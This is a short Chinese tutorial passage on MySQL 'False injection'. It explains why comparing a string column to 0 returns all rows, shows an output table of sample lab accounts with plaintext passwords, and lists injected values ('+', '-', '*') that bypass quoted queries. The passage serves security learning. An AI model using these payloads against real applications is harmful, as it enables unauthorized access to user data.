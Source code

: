 为什么 `username = 0` 会导致返回数据，而且是全部数据呢？

这就是一个基于 False 注入的例子，下面再举一个例子：

```sql
select * from user where username = 0;
```

```sql
mysql> select * from users where password = 0;
+----+----------+------------+
| id | username | password   |
+----+----------+------------+
|  1 | Dumb     | Dumb       |
|  2 | Angelina | I-kill-you |
|  3 | Dummy    | p@ssword   |
|  4 | secure   | crappy     |
|  5 | stupid   | stupidity  |
|  6 | superman | genious    |
|  7 | batman   | mob!le     |
|  8 | admin    | admin      |
|  9 | admin1   | admin1     |
| 10 | admin2   | admin2     |
| 11 | admin3   | admin3     |
| 12 | dhakkan  | dumbo      |
| 14 | admin4   | jiamu      |
+----+----------+------------+
13 rows in set, 13 warnings (0.00 sec)
```

#### False 注入利用

下面我们讲讲 False 注入如何利用，及如何构造 False 注入的利用点。在实际中我们接触到的语句都是带有引号的，如下：

```sql
select * from user where username ='.$username.';
```

在这种情况下，我们如何绕过引号构造出 0 这个值呢，我们需要做一些处理来构造false注入的**利用点**？

可以使用的姿势有很多，比如下面的算数运算：

- 利用算数运算

加：+

```
插入'+', 拼接的语句: select * from user where username =''+'';
```

减：-

```
插入'-', 拼接的语句: select * from user where username =''-'';
```

乘：*

```
插入'*', 拼接的语句: select * from user where username =''*'';
```
